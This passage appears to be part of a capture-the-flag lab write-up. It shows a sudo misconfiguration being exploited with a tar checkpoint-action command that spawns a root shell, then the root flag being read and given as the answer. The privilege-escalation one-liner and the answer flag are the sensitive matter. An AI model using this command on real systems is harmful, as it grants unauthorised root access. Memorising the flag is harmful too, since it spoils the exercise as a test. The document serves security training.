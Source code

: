 ![3](https://github.com/Knign/Write-ups/assets/110326359/b7a6ded1-6568-47ea-808a-9a090e6a5bb8)

- We will use the `Sudo` exploit.
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
```
- We now have root privilege and can cat the `root.txt` file. 
```
# cat root.txt  
THM{80UN7Y_h4cK3r}
```
### Answer
```
THM{80UN7Y_h4cK3r}
```
